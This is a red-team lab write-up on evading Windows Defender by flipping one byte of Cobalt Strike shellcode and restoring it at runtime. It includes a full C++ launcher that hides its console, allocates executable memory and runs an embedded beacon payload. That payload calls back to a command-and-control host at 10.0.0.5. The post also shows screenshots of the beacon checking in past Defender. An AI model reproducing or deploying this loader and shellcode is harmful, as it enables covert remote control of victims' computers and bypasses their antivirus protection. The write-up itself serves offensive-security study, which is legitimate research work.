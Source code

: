 # Evading Windows Defender with 1 Byte Change

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 \(1803\) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:

![](../../.gitbook/assets/screenshot-from-2019-01-11-13-02-28.png)

Can we do something about it?

## 1 Byte Trick

Let's generate a Cobalt Strike shellcode for our listener in C:

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-35-25.png)

Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](../code-injection-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` \(line 80\)
* Store the correct first byte `\xfc` in a char variable \(line 81\)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` \(line 86\)
* Build the executable
* Profit?

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-32-50.png)

Below is the source code if you want to test it in your environment:

{% code title="shellcodelauncher.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endcode %}

## Execution

On the left - Windows 10 with Windows Defender turned on and on the right is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:

![](../../.gitbook/assets/peek-2019-01-11-14-45.gif)

{% hint style="danger" %}
This is a quick and dirty proof of concept and hence the console window is visible for a brief moment, meaning a target user can suspect nefarious activity.
{% endhint %}

Below shows that the beacon that called back is stable and working as expected:

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-47-10.png)

Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:

![](../../.gitbook/assets/peek-2019-01-11-15-02.gif)

## Default Payload

Below shows that if the Cobalt Strike shellcode was injected as is, it immediately gets flagged:

![](../../.gitbook/assets/peek-2019-01-11-16-50.gif)

## Conclusion

Although not completely stealthy - the console window is visible for a brief moment during shellcode exeution, this short lab demonstrates that sometimes all it takes to evade AV detection is 1 one byte way.

## Subliminal Inspiration

{% embed url="https://twitter.com/curi0usjack/status/1083470829290164227?s=12" %}

{% hint style="info" %}
**Update**  
[@curi0usJack](https://twitter.com/curi0usJack) informed me that [@HackingDave](https://twitter.com/HackingDave) had found the same Windows Defender bypass technique as seen here [https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932\#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844](https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844) as part of his `Unicorn` project - very nice work! I will be definitely checking out the tool and its capabilities!
{% endhint %}



